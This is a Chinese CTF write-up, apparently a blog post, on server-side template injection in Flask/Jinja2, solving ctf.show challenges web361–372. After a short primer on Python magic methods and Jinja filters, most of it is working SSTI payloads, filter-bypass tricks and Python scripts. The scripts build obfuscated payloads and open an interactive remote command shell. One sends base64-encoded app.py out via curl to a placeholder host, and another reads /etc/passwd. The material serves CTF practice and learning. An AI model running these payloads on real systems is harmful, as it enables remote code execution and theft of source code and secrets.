

前言
SSTI主要为python的一些框架 jinja2 mako tornado django，PHP框架smarty twig，java框架jade velocity等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。
Bugku CTF——WEB之SSTI学习笔记_ctf ssti-CSDN博客
Flask：
Flask是一个Python编写的Web 微框架，让我们可以使用Python语言快速实现一个网站或Web服务，在介绍Flask之前首先来聊下它和Django的联系以及区别，django个大而全的web框架，它内置许多模块，flask是一个小而精的轻量级框架，Django功能大而全，Flask只包含基本的配置, Django的一站式解决的思路，能让开发者不用在开发之前就在选择应用的基础设施上花费大量时间。Django有模板，表单，路由，基本的数据库管理等等内建功能。与之相反，Flask只是一个内核，默认依赖于2个外部库： Jinja2 模板引擎和 WSGI工具集–Werkzeug , flask的使用特点是基本所有的工具使用都依赖于导入的形式去扩展，flask只保留了web开发的核心功能。

Python魔术方法
class#查找当前类型的所属对象
base_# 沿着父子类的关系往上走一个
mro # 查找当前类对象的所有继承类
subclasses ()# 查找父类下的所有子类
init #查看类是否重载，重载是指程序在运行时就已经加载好了这个模块到内存中如果出现wrapper字眼，说明没有重载
globals #函数会议字典的形式返回当前对象的全部全局变量
jinjia格式
控制结构 {% %}
变量取值 {{ }}
注释 {# #}了解python的几个函数解析
__class__ 类的一个内置属性，表示实例对象的类。
__base__ 类型对象的直接基类
__bases__ 类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__ 此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__() 返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__ 初始化类，返回的类型是function
__globals__ 使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__ 类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__() 实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__() 调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__ 内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__ 动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__() 返回描写这个对象的字符串，可以理解成就是打印出来。
url_for flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app 应用上下文，一个全局变量。
request 可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1 get传参
request.values.x1 所有参数
request.cookies cookies参数
request.headers 请求头参数
request.form.x1 post传参 (Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data post传参 (Content-Type:a/b)
request.json post传json (Content-Type: application/json)
config 当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
g {{g}}得到<flask.g of 'flask_ssti'>
一些利用语句
# 获得一个字符串实例
>>> ""
''
# 获得字符串的type实例
>>> "".__class__
<type 'str'>
# 获得其父类
>> "".__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)
# 获得父类中的object类
>>> "".__class__.__mro__[2]
<type 'object'>
# 获得object类的子类，但发现这个__subclasses__属性是个方法
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>
# 使用__subclasses__()方法，获得object类的子类
>>> "".__class__.__mro__[2].__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
# 获得第40个子类的一个实例，即一个file实例
>>> "".__class__.__mro__[2].__subclasses__()[40]
<type 'file'>
# 对file初始化
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd")
<open file '/etc/passwd', mode 'r' at 0x10397a8a0>
# 使用file的read属性读取，但发现是个方法
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read
<built-in method read of file object at 0x10397a5d0>
# 使用read()方法读取
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
nobody:*:-2:-2:Unprivileged
User:/var/empty:/usr/bin/false
root:*:0:0:System
Administrator:/var/root:/bin/sh常用过滤器
int()：将值转换为int类型；
float()：将值转换为float类型；
lower()：将字符串转换为小写；
upper()：将字符串转换为大写；
title()：把值中的每个单词的首字母都转成大写；
capitalize()：把变量值的首字母转成大写，其余字母转小写；
trim()：截取字符串前面和后面的空白字符；
wordcount()：计算一个长字符串中单词的个数；
reverse()：字符串反转；
replace(value,old,new)： 替换将old替换为new的字符串；
truncate(value,length=255,killwords=False)：截取length长度的字符串；
striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格；
escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。
safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}；
list()：将变量列成列表；
string()：将变量转换成字符串；
join()：将一个序列中的参数值拼接成字符串。示例看上面payload；
abs()：返回一个数值的绝对值；
first()：返回一个序列的第一个元素；
last()：返回一个序列的最后一个元素；
format(value,arags,*kwargs)：格式化字符串。比如：{{ "%s" - "%s"|format('Hello?',"Foo!") }}将输出：Helloo? - Foo!
length()：返回一个序列或者字典的长度；
sum()：返回列表内数值的和；
sort()：返回排序后的列表；
default(value,default_value,boolean=false)：如果当前变量没有值，则会使用参数中的值来代替。示例：name|default('xiaotuo')----如果name不存在，则会使用xiaotuo来替代。boolean=False默认是在只有这个变量为undefined的时候才会使用default中的值，如果想使用python的形式判断是否为false，则可以传递boolean=true。也可以使用or来替换。
length()返回字符串的长度，别名是count
web361-372
web361(os._wrap_close)
?name={{7*7}}
?name={{"".__class__.__base__.__subclasses__()}}也可以使用脚本查找
import requests
from tqdm import tqdm
for i in tqdm(range(233)):
url = 'https://589fbc1b-7f84-4f77-97bc-d20ad9e2b2b9.challenge.ctf.show/?name={{%22%22.__class__.__bases__[0].__subclasses__()['+str(i)+']}}'
r = requests.get(url=url).text
if('os._wrap_close' in r):
print(i)
然后利用os._wrap_close类init.globals来找os类中的。init初始化，globals全局查找
Payload:
?name={{"".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('tac /flag').read()}}
?name={{lipsum.__globals__['os'].popen('tac ../flag').read()}}
?name={{cycler.__init__.__globals__.os.popen('ls').read()}}
?name={{config.__class__.__init__.__globals__['os'].popen('tac /flag').read()}}web362(数字绕过 half2full)
经过测试过滤了数字2和3，但是发现可以140-8哈哈哈
?name={{"".__class__.__base__.__subclasses__()[140-8].__init__.__globals__['popen']('tac /flag').read()}}有大佬换成了全角数字也可以
def half2full(half):
full = ''
for ch in half:
if ord(ch) in range(33, 127):
ch = chr(ord(ch) + 0xfee0)
elif ord(ch) == 32:
ch = chr(0x3000)
else:
pass
full += ch
return full
t=''
s="0123456789"
for i in s:
t+='\''+half2full(i)+'\','
print(t)
?name={{"".__class__.__bases__[０].__subclasses__()[１３２].__init__.__globals__['popen']('tac /flag').read()}}或者使用其他方法
?name={{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
# x 可以为任意英文字母或字母组合
?name={{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}web363(引号)
过滤了单引号、双引号
GET传参绕过
?name={{url_for.__globals__[request.args.a][request.args.b](request.args.c).read()}}&a=os&b=popen&c=cat /flag字符串拼接绕过
(config.__str__()[2]) -> '0'
(config.__str__()[42]) -> 's'
(config.__str__()[17]) -> 'p'
(config.__str__()[43]) -> 'e'
(config.__str__()[90]) -> 'n'
(config.__str__()[23]) -> 't'
(config.__str__()[40]) -> 'a'
(config.__str__()[591]) -> 'c'
(config.__str__()[7]) -> ' '
(config.__str__()[853]) -> '/'
(config.__str__()[4]) -> 'f'
(config.__str__()[41]) -> 'l'
(config.__str__()[6]) -> 'g'
?name={{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])]}} # %2B -> +
# ?name={{url_for.__globals__['os']}}
?name={{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])][(config.__str__()[17])%2B(config.__str__()[2])%2B(config.__str__()[17])%2B(config.__str__()[43])%2B(config.__str__()[90])]((config.__str__()[23])%2B(config.__str__()[40])%2B(config.__str__()[591])%2B(config.__str__()[7])%2B(config.__str__()[853])%2B(config.__str__()[4])%2B(config.__str__()[41])%2B(config.__str__()[40])%2B(config.__str__()[6])).read()}}
# ?name={{url_for.__globals__['os']['popen']('tac /flag')}}chr拼接
先找出 chr 函数，同过 chr 拼接
?name={% set chr=url_for.__globals__.__builtins__.chr %}{% print url_for.__globals__[chr(111)%2bchr(115)]%}通过过滤器拼接
(()|select|string)[24]web364
多过滤了args，用上一个字符串拼接也可以
过滤了单双引号，args
values 可以获取所有参数，从而绕过 args
?name={{lipsum.__globals__.os.popen(request.values.ocean).read()}}&ocean=cat /flag也可以通过 cookie 绕过
?name={{url_for.__globals__[request.cookies.a][request.cookies.b](request.cookies.c).read()}}
a=os;b=popen;c=cat /flagweb365(过滤[])
fuzz 字典跑一遍，发现单双引号、args、[]被过滤
# GET传参
?name={{lipsum.__globals__.os.popen(request.values.a).read()}}&a=tac /flag
# cookie
?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}
Cookie:c=cat /flag
# __getitem__ 可以代替方括号
?name={{g.pop.__globals__.__builtins__.__getitem__(request.cookies.x)(request.cookies.xx).popen(request.cookies.xxx).read()}}
Cookie: x=__import__;xx=os;xxx=envweb366(过滤__ attr)
过滤了_ ' " [ |attr 可代替 .
Payload:
?name={{(lipsum|attr(request.values.a)).os.popen(request.values.b).read()}}&a=__globals__&b=tac /flagweb367(过滤os)
Payload:
?name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=__globals__&b=os&c=cat /flag
?name={{lipsum|attr(request.values.a)|attr(request.values.b)(request.values.c)|attr(request.values.d)(request.values.ocean)|attr(request.values.f)()}}&ocean=cat /flag&a=__globals__&b=__getitem__&c=os&d=popen&f=readweb368(过滤双{)
可用 {%print(payload)%} 代替 {{payload}}
?name={% print((lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()) %}&a=__globals__&b=os&c=tac /flagweb369(过滤request)
没了 request，要自己拼字符了。
{% set pop=dict(p=a,op=a)|join %} #pop
{% set lo=(x|reject|string|list)|attr(pop)(24)%} #_
{% set c1=(lo,lo,dict(ini=a,t=a)|join,lo,lo)|join %} #__init__
{% set c2=(lo,lo,dict(glo=a,bals=a)|join,lo,lo)|join %} #__globals__
{% set c3=(lo,lo,dict(get=a,item=a)|join,lo,lo)|join %} #__getitem__
{% set c4=(lo,lo,dict(buil=a,tins=a)|join,lo,lo)|join %} #__builtins__
{% set c5=dict(ev=a,al=a)|join %} #eval
{% set sc=a|pprint|pprint|list|attr(pop)(0) %} #' pprint filter 在字符串上会加上单引号
{% set lb=()|string|list|attr(pop)(0)%} #(
{% set rb=()|string|list|attr(pop)(1) %} #)
{% set point=3.14|string|list|attr(pop)(1) %} #.
{% set x=(lo,lo,dict(imp=a,ort=a)|join,lo,lo,lb,sc,dict(o=a,s=a)|join,sc,rb,point,dict(po=a,pen=a)|join,lb,sc,dict(en=a,v=a)|join,sc,rb,point,dict(rea=a,d=a)|join,lb,rb)|join %} # __import__('os').popen('env').read()
{% print(a|attr(c1)|attr(c2)|attr(c3)(c4)|attr(c3)(c5)(x)) %} #print(a.__init__.__globals__.__getitem__("__builtins__").__getitem__("eval")("__import__('os').popen('env').read()"))
{% set pop=dict(p=a,op=a)|join %} #pop - 这行代码使用Jinja2的模板语法，通过字典和join过滤器构造了一个字符串 “pop”。
dict(p=a, op=a)创建了一个包含键值对{'p': a, 'op': a}的字典，然后|join将这些键连接成字符串 “pop”。
其他相似原理
import re
import requests
url = "http://106261e2-bcd9-4731-a15e-35ac39f86511.challenge.ctf.show/?name="
def build_payload(command: str) -> str:
return """{% set pops=dict(p=a,op=a)|join %}
{% set lo=(x|reject|string|list)|attr(pops)(24)%}
{% set init=(lo,lo,dict(ini=a,t=a)|join,lo,lo)|join %}
{% set c2=(lo,lo,dict(glo=a,bals=a)|join,lo,lo)|join %}
{% set c3=(lo,lo,dict(get=a,item=a)|join,lo,lo)|join %}
{% set c4=(lo,lo,dict(buil=a,tins=a)|join,lo,lo)|join %}
{% set evas=dict(ev=a,al=a)|join %}
{% set chs=dict(ch=a,r=a)|join %}
{% set chr=a|attr(init)|attr(c2)|attr(c3)(c4)|attr(c3)(chs)%}
{% set eval=a|attr(init)|attr(c2)|attr(c3)(c4)|attr(c3)(evas) %}
{% print(eval((""" + ",".join([f"chr({ord(c)})" for c in f"__import__('os').popen('{command}').read()"]) + """)|join)) %}"""
def run(command: str) -> str:
response = requests.get(url+build_payload(command))
return re.findall(f"h3>(.*?)</h3", response.text, re.S)[0].strip()
while True:
c = input("> ")
print(run(c))
web370(过滤了数字)
import re
from typing import List
import requests
url = "http://717d6b1c-8b55-4083-b8af-52d9b0fd1eab.challenge.ctf.show/"
def build_number(num: int) -> str:
result: List[str] = []
index: int = 0
while num > 0:
n: int = num % 10
result.append(f"({num2var(n)}{'*ten'*index})")
num //= 10
index += 1
return "+".join(result)
num2var_dict = {
0: "zero",
1: "one",
2: "two",
3: "three",
4: "four",
5: "five",
6: "six",
7: "seven",
8: "eight",
9: "nine"
}
def num2var(num: int) -> str:
if abs(num) >= 10:
raise Exception("no way")
return num2var_dict[num]
def build_payload(command: str) -> str:
return """{% set one=(a,)|length %}
{% set zero=one-one %}
{% set two=one+one %}
{% set three=one+two %}
{% set four=two*two %}
{% set five=three+two %}
{% set six=three*two %}
{% set seven=one+six %}
{% set eight=four*two %}
{% set nine=one+eight %}
{% set ten=five*two %}
{% set pops=dict(p=a,op=a)|join %}
{% set lo=(x|reject|string|list)|attr(pops)(""" + build_number(24) + """)%}
{% set init=(lo,lo,dict(ini=a,t=a)|join,lo,lo)|join %}
{% set cc=(lo,lo,dict(glo=a,bals=a)|join,lo,lo)|join %}
{% set ccc=(lo,lo,dict(get=a,item=a)|join,lo,lo)|join %}
{% set cccc=(lo,lo,dict(buil=a,tins=a)|join,lo,lo)|join %}
{% set evas=dict(ev=a,al=a)|join %}
{% set chs=dict(ch=a,r=a)|join %}
{% set chr=a|attr(init)|attr(cc)|attr(ccc)(cccc)|attr(ccc)(chs)%}
{% set eval=a|attr(init)|attr(cc)|attr(ccc)(cccc)|attr(ccc)(evas) %}
{% print(eval((""" + ",".join([f"chr({build_number(ord(c))})" for c in f"__import__('os').popen('{command}').read()"]) + """)|join)) %}"""
def run(command: str) -> str:
payload = build_payload(command)
response = requests.get(url, params={"name": payload})
# print(payload)
return re.findall(f"h3>(.*?)</h3", response.text, re.S)[0].strip()
while True:
c = input("> ")
print(run(c))
web371-372(无回显)
371不给 print，curl 带外
372过滤count，但是不影响
import re
from typing import List
import requests
url = "http://39ebd089-1562-497f-bff2-83664f8ae528.challenge.ctf.show/"
def build_number(num: int) -> str:
result: List[str] = []
index: int = 0
while num > 0:
n: int = num % 10
result.append(f"({num2var(n)}{'*ten'*index})")
num //= 10
index += 1
return "+".join(result)
num2var_dict = {
0: "zero",
1: "one",
2: "two",
3: "three",
4: "four",
5: "five",
6: "six",
7: "seven",
8: "eight",
9: "nine"
}
def num2var(num: int) -> str:
if abs(num) >= 10:
raise Exception("no way")
return num2var_dict[num]
def build_payload(code: str) -> str:
return """{% set one=(a,)|length %}
{% set zero=one-one %}
{% set two=one+one %}
{% set three=one+two %}
{% set four=two*two %}
{% set five=three+two %}
{% set six=three*two %}
{% set seven=one+six %}
{% set eight=four*two %}
{% set nine=one+eight %}
{% set ten=five*two %}
{% set pops=dict(p=a,op=a)|join %}
{% set lo=(x|reject|string|list)|attr(pops)(""" + build_number(24) + """)%}
{% set init=(lo,lo,dict(ini=a,t=a)|join,lo,lo)|join %}
{% set cc=(lo,lo,dict(glo=a,bals=a)|join,lo,lo)|join %}
{% set ccc=(lo,lo,dict(get=a,item=a)|join,lo,lo)|join %}
{% set cccc=(lo,lo,dict(buil=a,tins=a)|join,lo,lo)|join %}
{% set evas=dict(ev=a,al=a)|join %}
{% set chs=dict(ch=a,r=a)|join %}
{% set chr=a|attr(init)|attr(cc)|attr(ccc)(cccc)|attr(ccc)(chs)%}
{% set eval=a|attr(init)|attr(cc)|attr(ccc)(cccc)|attr(ccc)(evas) %}
{% set b=eval((""" + ",".join([f"chr({build_number(ord(c))})" for c in code]) + """)|join) %}"""
def run(command: str) -> str:
payload = build_payload(command)
response = requests.get(url, params={"name": payload})
print(payload.replace("+", "%2b"))
return re.findall(f"h3>(.*?)</h3", response.text, re.S)[0].strip()
run("__import__('os').popen('curl -F file=`base64 app.py -w 0` http://xxxxx/').read()")